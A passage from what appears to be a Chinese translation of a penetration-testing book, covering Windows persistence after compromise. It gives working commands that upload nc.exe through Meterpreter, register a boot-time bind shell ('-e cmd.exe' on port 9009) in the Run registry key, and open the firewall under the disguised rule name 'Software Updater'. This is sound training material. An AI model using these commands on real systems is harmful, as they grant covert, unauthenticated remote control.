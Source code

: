 图 17.7 – 持久（且提升权限的！）代理报告

哇！我们的新代理正在以`SYSTEM`身份运行。我们现在完全控制了计算机，并且它将在重启后保持这种关系。永久的 WMI 订阅以`SYSTEM`身份运行，这不仅使其成为一个有价值的持久化练习，而且也是提升权限的可靠方式。

# 黑客隧道 – 即时生成的 netcat 后门

我知道你在想什么。你在想 netcat 是否真的是一个好的选择。它不是一个加密隧道，也没有任何认证机制，而且`nc.exe`常常被杀毒软件标记。不过，目前我们还是选择了 netcat，因为它是一个不错的演示工具，但实际上也有实际用途——我不确定是否有比这种方法更快的方式来在 Windows 目标系统中创建一个持久的后门。不过，你可以使用任何你喜欢的监听器来利用这种方法。让我们更仔细地看看我们手工制作的有效负载。

## 使用 Meterpreter 上传并配置持久化 netcat

我们已经看过使用`SimpleHTTPServer`在局域网上轻松传输文件的方法。这次，我们假设已经建立了 Meterpreter 的立足点，并且我们正在设置一个更快的*回调号码*。

使用`upload`命令将你的后门上传到目标。接下来的步骤是使其在每次启动时都能生效——将可执行文件添加到注册表中。请注意，双斜杠用于转义单个斜杠通常代表的换行符：

> 上传 /usr/share/windows-binaries/nc.exe C:\\Windows\\system32
> 
> reg setval -k HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run -v nc -d 'C:\Windows\system32\nc.exe -Ldp 9009 -e cmd.exe'

Meterpreter 应该报告密钥已成功设置：

![图 17.8 – Meterpreter 上传和注册表设置用于持久化的 netcat](img/Figure_17.08_B17616.jpg)

图 17.8 – Meterpreter 上传和注册表设置用于持久化 netcat

请注意，启动时实际执行的命令是`nc.exe -Ldp 9009 -e cmd.exe`。不要忘记端口号。不过，仍然有一步需要完成。

## 远程调整 Windows 防火墙以允许入站的 netcat 连接

现在，我知道你心中的黑客在想，*我们所做的不过是确保后门在启动时加载而已，可能我们回去时会撞上防火墙*。确实，学生成了大师。我们可以使用 `netsh` 一行命令来处理这个问题。进入目标的 shell，发送以下命令：

> netsh advfirewall firewall add rule name="Software Updater" dir=in action=allow protocol=TCP localport=9009

让我们看看这个过程是怎样的：

![图 17.9 – 从目标的 shell 修改防火墙](img/Figure_17.09_B17616.jpg)
